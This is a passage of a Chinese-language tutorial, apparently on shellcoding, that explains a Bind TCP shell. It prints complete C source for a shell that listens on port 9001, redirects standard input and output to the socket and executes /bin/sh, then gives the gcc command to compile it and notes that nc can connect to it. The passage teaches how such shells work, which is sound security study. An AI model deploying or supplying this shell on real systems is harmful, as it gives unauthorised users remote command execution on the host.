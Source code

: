 为了更好地理解 Bind TCP，让我们用更高级的编程语言创建一个 Bind TCP Shell。我们将使用`C`:

```
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>int main()
{
  int sockfd, acceptfd;
  int port = 9001; **// Server Address struct**
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(port);
  addr.sin_addr.s_addr = INADDR_ANY; **// 1) Socket Creation (sys_socket 1)** sockfd = socket(AF_INET, SOCK_STREAM, 0); **// 2) Bind() Syscall (sys_bind 2)** bind(sockfd, (struct sockaddr *) &addr, sizeof(addr)); **// 3) Listen() Syscall (sys_listen 4)** listen(sockfd, 0); **// 4) Accept() Syscall (sys_accept 5)**
  acceptfd = accept(sockfd, NULL, NULL); **// 5) Dup2() Syscall** dup2(acceptfd, 0);  // stdin
  dup2(acceptfd, 1);  // stdout
  dup2(acceptfd, 2);  // stderr **// 6) Execve() Syscall** execve("/bin/sh", NULL, NULL);
  return 0;
}
```

我们来编译一下:

```
# gcc bind-tcp-shell.c -o bind-tcp-shell
```

编译后的二进制可以成功打开一个 bind shell，我们可以通过`nc`连接到它。

![](img/367d27ad764dce2e49173a79cb9ca754.png)
